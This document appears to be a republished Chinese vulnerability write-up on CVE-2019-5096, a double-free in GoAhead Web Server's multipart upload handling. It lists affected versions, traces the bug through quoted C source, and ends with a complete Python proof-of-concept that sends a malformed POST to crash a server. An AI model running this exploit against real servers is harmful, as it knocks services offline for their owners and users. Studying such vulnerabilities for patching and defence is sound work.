 # （CVE-2019-5096） 远程代码溢出漏洞

> 原文：[http://book.iwonder.run/0day/GoAhead/CVE-2019-5096.html](http://book.iwonder.run/0day/GoAhead/CVE-2019-5096.html)

## 一、漏洞简介

GoAhead Web 服务器最近被曝光在版本 v5.0.1，v.4.1.1 和 v3.6.5 中存在一个可利用的代码执行漏洞，漏洞存在 http 请求的 multi-part/form-data 字段处理中，若是发送畸形的 HTTP 请求，可导致 GoAhead Web 服务器在处理此请求期间触发 double-free 漏洞。 该畸形请求可以未经身份验证的 GET 或 POST 请求形式发送，并且请求的服务器上不需要存在 web 页面。

## 二、漏洞影响

v5.0.1，v.4.1.1 和 v3.6.5

## 三、复现过程

### 漏洞分析

漏洞曝光者给出了触发漏洞的源码：

```
/ src/upload.c /
66 static void freeUploadFile(WebsUpload *up)
67 {
68 if (up) {
69 if (up->filename) { // BUG: First UAF here
70 unlink(up->filename); // BUG: UAF/unlink - probably not a good idea
71 wfree(up->filename); // BUG: Double free here
72 }
73
74 wfree(up->clientFilename);
75 wfree(up->contentType);
76 wfree(up);
77 }
78 } 
```

经过笔者的分析发现，freeUploadFile（）函数会在/src/upload.c 的 websFreeUpload（）函数中调用，而 websFreeUpload（）函数会在/src/http.c 中调用，/src/http.c 中 termWebs（）函数会调用 websFreeUpload（）函数，/src/http.c 中 reuseConn（）函数会调用 termWebs（）函数，从中可以看出漏洞触发函数 freeUploadFile（）的调用过程。

在函数 freeUploadFile（）的调用过程中，查看源码可发现有两行如下代码：

```
/ src/upload.c /
255 freeUploadFile(wp->currentFile);
256 file = wp->currentFile = walloc(sizeof(WebsUpload)); 
```

在此处变量 wp->currentFile 会被 free 一次，但是被 free 的变量 wp->currentFile 在代码：

```
/ src/upload.c /
371 hashEnter(wp->files, wp->uploadVar, valueSymbol(file), 0);
372 defineUploadVars(wp); 
```

在此处代码中把变量 wp->currentFile 加入了一个数组中，该数组中的变量在接下来的代码中会被 free 一次，free 代码如下：

```
/ src/upload.c /
86 for (s = hashFirst(wp->files); s; s = hashNext(wp->files, s)) {
87 up = s->content.value.symbol;
88 freeUploadFile(up); 
```

变量 wp->currentFile 再次被 free 之后，导致了 double-free 漏洞触发，是 fastbin double free，利用方法和思路已经很成熟。

### poc

> [https://github.com/ianxtianxt/CVE-2019-5096-GoAhead-Web-Server-Dos-Exploit](https://github.com/ianxtianxt/CVE-2019-5096-GoAhead-Web-Server-Dos-Exploit)

```
from pwn import *
import time
import sys
r = remote(sys.argv[1],8080)
rn = b"\r\n"

payload=b''
payload +=b"--siiit"+rn
payload +=b"Content-Disposition: form-data; name=\"shit1\"; filename=\"shit.file\";"+rn
payload+= rn
payload+=b"HelloWorld!"+rn
payload +=b"--siiit"+rn
payload +=b"Content-Disposition: form-data;  name=\"shit2\"; filename=\"shit2.file\""+rn
payload+= rn
payload+=b"FuckkWorld!"+rn
payload +=b"--siiit"+rn

data = b"POST / HTTP/1.1\r\nHost:HelloWorld:8080\r\n"
data +=b"content-type:multipart/form-data"+rn
data +=b"content-type:boundary=siiit"+rn
data +=b"content-length:"+str(len(payload)).encode()+rn
data +=b"cookie:"+b'a'*0x1+rn
data +=rn
data +=payload

r.send(data)
sleep(20)
try:
    dat=r.recvn(1024)
    print(dat)
    r.close()
except:
    r.close() 
```

